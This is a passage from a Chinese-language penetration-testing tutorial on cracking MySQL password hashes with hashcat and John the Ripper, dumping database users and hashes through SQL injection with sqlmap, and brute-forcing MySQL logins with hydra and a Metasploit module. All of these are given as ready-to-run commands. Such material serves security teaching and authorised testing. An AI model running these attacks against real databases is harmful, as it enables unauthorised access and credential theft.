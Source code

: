    http://www.cmd5.com/
   ![](http://7xo8y2.com1.z0.glb.clouddn.com/18-6-30/48683055.jpg)

   http://www.mysql-password.com/hash
   ![](http://7xo8y2.com1.z0.glb.clouddn.com/18-6-30/56313677.jpg)

2. #### 使用工具破解

   hashcat工具：

    `hashcat64.exe 01A6717B58FF5C7EAFFF6CB7C96F7428EA65FE4C --force -a 0 -m 300 dict.txt`

   ![](http://7xo8y2.com1.z0.glb.clouddn.com/18-6-30/80178267.jpg)

   如图，输出了结果admin123，其中dict.txt为字典， -m 300表示要破解的是mysql密码，-a 0 字典模式

   参考[Hash破解神器：Hashcat的简单使用](https://blog.csdn.net/mydriverc2/article/details/41384853)

   

   John the ripper工具

   `john --wordlist=dict.txt -format=MySQL-sha1 hash.txt `

   ![](http://7xo8y2.com1.z0.glb.clouddn.com/18-6-30/22237035.jpg)

   其中dict.txt为字典， hash.txt为mysql密码，-format=MySQL-sha1表示加密方式mysqlsha1。

## 三、获取MySQL密码

### 存在注入点时获取密码

当网站存在注入点时可以使用sqlmap工具获取mysql的用户名和密码等信息。

获取用户列表

`python2 sqlmap.py -r test.txt --users`

![](http://7xo8y2.com1.z0.glb.clouddn.com/18-7-1/59818208.jpg)

获取用户密码

`python2 sqlmap.py -r test.txt --password`

![](http://7xo8y2.com1.z0.glb.clouddn.com/18-7-1/81505899.jpg)

或者也直接手工注入查询mysql库的user表。

### 爆破获取mysql密码

1. hydra工具

   `hydra -l 用户名 -P 密码字典  ip mysql`

2. metasploit模块

   ```
   use auxiliary/scanner/mysql/mysql_login
   # 设置目标主机
   set RHOSTS 192.168.99.100
   #需要爆破的用户名
   set USERNAME root
   #密码字典
   set PASS_FILE /root/Downloads/dict.txt
   exploit
   ```
